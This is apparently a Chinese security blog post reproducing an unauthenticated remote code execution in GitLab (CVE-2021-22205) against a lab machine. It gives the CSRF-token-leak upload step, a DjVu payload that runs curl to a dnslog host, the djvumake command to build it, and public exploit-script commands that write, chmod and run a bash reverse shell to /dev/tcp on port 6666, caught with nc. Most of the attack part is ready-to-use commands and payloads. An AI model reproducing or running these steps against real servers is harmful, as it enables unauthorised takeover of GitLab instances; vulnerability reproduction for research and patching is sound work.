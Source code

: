```yaml
---
title: GitLab 未授权RCE(CVE-2021-22205)  --花无名   
layout: mypost
categories: [漏洞复现]
---
```

# 1.漏洞介绍

这个漏洞形成未授权RCE主要要两个原因：1.gitlab的用户登录界面的CSRF-token泄露，攻击者可以直接获取使用至系统文件上传接口，导致原本需要登录后才能实现RCE的漏洞风险大大提高了

2.第二个原因是gitlab使用的exiftool，接收用户上传图片时，处理不当，将用户上传的无法解析的文件进行执行，从而导致了可RCE（CVE-2021-22204），[详情见vakzz大佬原文](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

# 2.未授权漏洞复现：

`影响范围：`

`11.9 <=  GitLab（CE/EE）< 13.8.8
13.9 <=  GitLab（CE/EE）< 13.9.6
13.10 <= GitLab（CE/EE）< 13.10.3`

过程：

直接访问接口 http://xxxx.com/users/sign_in

在返回包中找到csrf-token，将值记录![微信截图_20211112140906](微信截图_20211112140906.png)

构造数据包，上传文件

![tihuan](tihuan.png)

即可未授权上传文件至目标服务器

# 文件上传RCE

根据上述漏洞原理可知，我们需要构造一个非常规的图片文件，从而使系统解析错误并执行文件内容

此处需要上传`DjVu`格式图片（即Exp）

![attfile](attfile.png)

DjVu格式图片需要下载安装工具DjVuLibre，地址：http://djvu.sourceforge.net/

木马文本内容

`(metadata (Copyright "\ " . qx{curl xxxx.dnslog.cn} . \ " b ") )`

使用命令生成rce.jpg

`djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg`

之后上传至系统服务器即可

![image-20211112143405506](image-20211112143405506.png)

至此即可查看dnslog是否有成功访问记录了

# 脚本复现及漏洞利用

这里使用脚本为：https://github.com/Al1ex/CVE-2021-22205 详细工具介绍可直接至github查看。

NC反弹shell

构造语句，将命令写入到服务器，执行写入的文件，即可成功反弹shell

` python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "echo 'bash -i >& /dev/tcp/xx.xx.x.x/6666 0>&1' > /tmp/1.sh"`

![fan1](fan1.png)

可看到文件已成功写到靶机上

![ubantu](ubantu.png)

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "chmod 7777 /tmp/1.sh"`

![fan2](fan2.png)

`nc -lvp 6666`

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "/bin/bash /tmp/1.sh"`

![image-20211112144237872](image-20211112144237872.png)

![shell](shell.png)



参考：https://github.com/Al1ex/CVE-2021-22205     https://www.freebuf.com/articles/web/303375.html